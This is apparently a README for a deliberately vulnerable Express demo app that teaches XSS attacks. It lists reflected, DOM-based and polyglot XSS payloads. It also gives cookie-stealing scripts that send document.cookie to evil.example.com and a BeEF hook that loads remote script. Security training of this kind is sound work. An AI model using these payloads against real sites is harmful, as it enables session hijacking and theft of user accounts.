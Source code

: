 # Hands-on Express XSS

This application is a demonstration prototype just to show how to perform XSS attacks.

## Setting-up

### Deploy on heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)

### Deploy on your host

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ node app.js
```

* Make sure that TCP/3000 is allowed on your firewall


## Tutorials

These tutorials will walk you through using XSS attacks.

### Reflected XSS

* Open http://localhost:3000

* Complete name field with a simple XSS payload

```javascript
<script>alert("XSS");</script>
```

* Complete name field with a XSS payload (without script tag)

```javascript
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

* Complete name field with a XSS payload (with context breaking)

```javascript
" autofocus onfocus="alert('XSS')
```

* Complete name field with a polyglot XSS

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg/*/onload=alert('XSS')//>
```

### DOM-Based XSS

* Open http://localhost:3000/#message (A script inserts this URL fragment in the page)

* Open http://localhost:3000/#%3Cscript%3Ealert(%22XSS%22);%3C/script%3E


### Steal cookie

```javascript
<script>alert(document.cookie);</script>
```

Do you receive this cookie ? no

```javascript
<script>document.location= "http://evil.example.com/?cookie=" + document.cookie;</script>
```

Redirection will be suspicious! Try without redirecting on another page.

```javascript
<script>document.write('<img src="http://evil.example.com/img.jpg?cookie=' + document.cookie + '" />')</script>
```

### Beef

Payload to hook the page with BeEF:

```javascript
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"></img>
```
